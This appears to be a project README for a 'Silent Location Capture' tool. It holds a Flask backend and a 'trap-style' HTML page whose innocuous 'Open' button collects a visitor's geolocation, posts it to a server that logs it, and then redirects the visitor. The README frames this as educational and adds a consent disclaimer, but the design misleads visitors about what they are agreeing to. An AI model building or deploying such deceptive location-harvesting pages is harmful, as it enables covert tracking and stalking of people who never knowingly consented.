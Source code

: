 # Silent Location Capture

A minimalistic backend API to silently capture a user's geolocation upon page access — with no interface, only raw data.

## Overview

This project is a simple geolocation capture system consisting of two parts:

1. **Backend**: A Flask-based REST API that listens for incoming geolocation data and logs it into a file.
2. **Frontend (HTML)**: A trap-style page with a button that, when clicked, silently captures the user's current geolocation and sends it to the backend.

The intent of this project is educational — to demonstrate how geolocation can be programmatically captured and sent to a server with minimal user interaction.

⚠️ **Disclaimer**: Use this responsibly. Always get proper consent when handling geolocation or personal data.

## How It Works

### HTML (Frontend)

When a user opens the HTML page and clicks the button:

- The browser requests their geolocation.
- If permission is granted, the coordinates are sent via `POST` to the backend endpoint `/lokasi`.
- After sending, the user is redirected to another site (you can customize this).

```html
<button onclick="getLocation()">Open</button>

<script>
  function getLocation() {
    navigator.geolocation.getCurrentPosition(
      function(pos) {
        fetch("http://localhost:5000/lokasi", {
          method: "POST",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify({
            latitude: pos.coords.latitude,
            longitude: pos.coords.longitude
          })
        })
        .then(() => {
          window.location.href = "https://example.com";
        });
      },
      function(err) {
        alert("Location access denied.");
      }
    );
  }
</script>
```
### Python (Backend)
The backend API is built with Flask. It:
- Accepts geolocation data via the /lokasi endpoint.
- Saves the data (timestamp, latitude, longitude) into a local lokasi.txt file.
- Supports CORS for cross-origin requests

# Getting Started

## Requirements

- Python 3  
- Flask  
- Flask-CORS  

## Installation

```bash
pip install flask flask-cors
python app.py
```

```markdown
> 🛠️ Maintained by gmptrizki
```


